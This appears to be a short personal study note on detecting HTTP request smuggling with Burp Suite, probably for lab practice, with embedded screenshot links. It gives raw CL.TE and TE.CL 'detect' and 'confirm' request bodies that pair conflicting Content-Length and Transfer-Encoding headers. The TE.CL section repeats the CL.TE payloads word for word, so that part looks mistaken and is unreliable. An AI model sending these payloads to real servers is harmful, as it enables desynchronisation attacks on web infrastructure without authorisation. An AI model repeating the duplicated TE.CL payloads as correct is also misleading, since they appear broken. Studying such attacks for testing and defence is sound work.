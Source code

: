 ____

HTTP /1
Change request method 

We have to receive HTTP /1 200 OK 

Extension: HTTP Request Smuggler -> Launch all scans

Repeater --> uncheck Update Content-Length 

![[Pasted image 20240815102523.png]]

![[Pasted image 20240815101327.png]]

![[Pasted image 20240815101531.png]]
# CL.TE
Detect
```
Content-Length: 6
Transfer-Encoding: chunked

3
abc
X
```

Confirm

```
Content-Length: 6
Transfer-Encoding: chunked

0

X
```


# TE.CL

Detect
```
Content-Length: 6
Transfer-Encoding: chunked

3
abc
X
```

Confirm

```
Content-Length: 6
Transfer-Encoding: chunked

0

X
```









